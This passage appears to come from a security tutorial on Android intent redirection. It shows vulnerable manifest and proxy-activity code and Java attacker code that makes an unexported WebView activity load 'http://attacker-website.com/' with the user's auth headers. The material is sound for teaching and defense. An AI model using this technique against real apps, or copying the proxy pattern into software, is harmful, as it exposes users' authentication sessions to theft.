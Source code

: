 Since the Intent is `Parcelable`, objects belonging to this class can be passed as extra data to another intent. This can be used to create a proxy component (activity, broadcast receiver or service) that take an embedded intent and pass it to dangerous methods such as `startActivity()` or `sendBroadcast()`. As a result, you can force an app to start an unexported component that can't be started directly from another app, or grant yourself access to app's content providers.

For example, suppose, an app have an unexported activity that performs certain unsafe actions and an exported activity that is used as a proxy:

- `AndroidManifest.xml`

    ```xml
    <activity android:name=".ProxyActivity" android:exported="true" />
    <activity android:name=".AuthWebViewActivity" android:exported="false" />
    ```

- `ProxyActivity.java`

    ```java
    startActivity((Intent) getIntent().getParcelableExtra("extra_intent"));
    ```

- `AuthWebViewActivity.java`

    ```java
    webView.loadUrl(getIntent().getStringExtra("url"), getAuthHeaders());
    ```

In this example the `AuthWebViewActivity` passes the user authentication session to the URL obtained from the url parameter.

Export restrictions mean you can't directly access `AuthWebViewActivity` and a direct call throws the `java.lang.SecurityException` with the `Permission Denial: AuthWebViewActivity not exported from uid 1337` message:

```java
Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.AuthWebViewActivity");
intent.putExtra("url", "http://attacker-website.com/");
// throws java.lang.SecurityException
startActivity(intent);
```

However, you can force a victim to start `AuthWebViewActivity` on their own:

```java
Intent extra = new Intent();
extra.setClassName("com.victim", "com.victim.AuthWebViewActivity");
extra.putExtra("url", "http://attacker-website.com/");

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```

There are no security violations because the app has access to all of its own components. Therefore, it allows you to bypass the built-in restrictions of the Android.
